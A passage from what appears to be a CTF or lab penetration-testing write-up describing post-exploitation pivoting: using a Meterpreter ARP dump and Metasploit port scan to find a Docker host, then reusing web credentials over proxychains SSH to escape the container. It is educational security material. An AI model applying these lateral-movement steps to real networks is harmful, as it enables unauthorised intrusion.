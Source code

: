 To find the IP addresses of machines on other networks I inspected the arp caches

```
meterpreter > arp

ARP cache
=========

    IP address  MAC address        Interface
    ----------  -----------        ---------
    10.0.0.1    5e:b3:92:f7:4c:53
    10.0.0.2    02:42:0a:00:00:04
    10.0.0.4    02:42:0a:00:00:04
    10.0.0.5    02:42:0a:00:00:04
    10.255.0.2  02:42:0a:ff:00:02
    172.18.0.1  02:42:b0:92:28:a0
```

I ran some scans again on the various machines found using `scanner/portscan/tcp`, and found ports `22`and `80` open on the `172.18.0.1` network. Among other things, even analyzing the results of linpeas, this machine seems to be a docker container and this network is most likely the virtual network used by docker, most likely (given that it is the gateway address) it is the address of the machine that is hosting the containers.
So if I can connect to this IP via ssh I can exit the container and move to a machine with more privileges and functionality

```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.18.0.1:           - 172.18.0.1:22 - TCP OPEN
[+] 172.18.0.1:           - 172.18.0.1:80 - TCP OPEN
[*] 172.18.0.1:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Before checking the ssh version or trying a brute-force attack, I tried connecting to the service using the same credentials I had used on the website with the sysadmin user. I honestly didn't expect them to be correct, but intead...

```
$ proxychains ssh sysadmin@172.18.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.18.0.1:22  ...  OK
The authenticity of host '172.18.0.1 (172.18.0.1)' can't be established.
ED25519 key fingerprint is SHA256:U14271OTfB1vLbhGF52YlyhN4QwdxK/ukXix+l83+iI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.18.0.1' (ED25519) to the list of known hosts.
sysadmin@172.18.0.1's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

263 packages can be updated.
181 updates are security updates.


Last login: Sat Nov 21 15:30:19 2020
sysadmin@ubuntu:~$
```
I also loaded linpeas here and launched it and found that the sysadmin user is part of the docker group.
```
```